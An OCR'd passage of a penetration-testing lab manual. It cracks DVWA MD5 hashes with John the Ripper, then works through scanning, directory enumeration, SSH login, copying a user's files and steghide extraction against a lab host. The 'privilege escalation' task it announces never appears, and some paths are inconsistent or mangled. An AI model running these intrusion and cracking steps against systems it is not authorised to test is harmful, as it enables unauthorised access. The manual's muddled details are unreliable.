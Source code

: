 
Save in Notepad
	Instructions:
	Navigate to --> /usr/share/john/
	Name the file name --> dvwa_password.txt
	Click Save
Proof of Lab Using John the Ripper
Proof of Lab
	Instructions:
	Bring up a new terminal, see (Section 7, Step 1)
	cd /usr/share/john/
	john  --format=raw-MD5 dvwa_password.txt 
	
	john --format=raw-MD5 dvwa_password.txt
 

 

Decoded passwords are displayed
Reference: https://www.youtube.com/watch?v=ppXQt58klqs&list=PLMcXv2jVcbgp4J7240jF3pxGh8LIsHdCU&index=24



Experiment 8: Privilege Escalation on a Compromised Host 
Scenario: 
You have a non-privileged shell on a compromised Linux server. The security team wants to 
know if gaining full root access is feasible, helping them understand post-exploitation risks. 
Tasks: - Use LinPEAS or Linux Exploit Suggester to find local privilege escalation opportunities. - Exploit a vulnerable kernel or misconfigured SUID binary to become root. 
Deliverable: 
Evidence (screenshot of id command) that you obtained root privileges, and a short write-up 
of the exploited issue.
Steps:
Step 1. network scanning:
 

nmap -p- -A 192.168.1.104
 
The scan gives us a lot of good and useful information, but what stands out the most is that port 22 and 80 are open, let’s explore port 80 first and see what we can find there.
 
This does not help much, time to move to the next stage.
Step 2: Enumeration
dirb http://192.168.1.104/ -X .txt
 
http://192.168.1.104/notes.txt
 
http://192.168.1.104/remb.txt
 
Step 3 : System Exploration
ssh first_stage@192.168.1.104
ls
cat user.txt
cd /home
ls
cd mhz_cif
ls
cd Paintings
ls
Step 4: Data Exfiltration
mkdir raj
cd raj
scp first_stage@192.168.1.104:/home/mhz_c1f/Paintaings/* .
ls
Step 5: Steganography
steghide extract -sf spinning/ the/ wool.jpeg
cat remb2.txt
 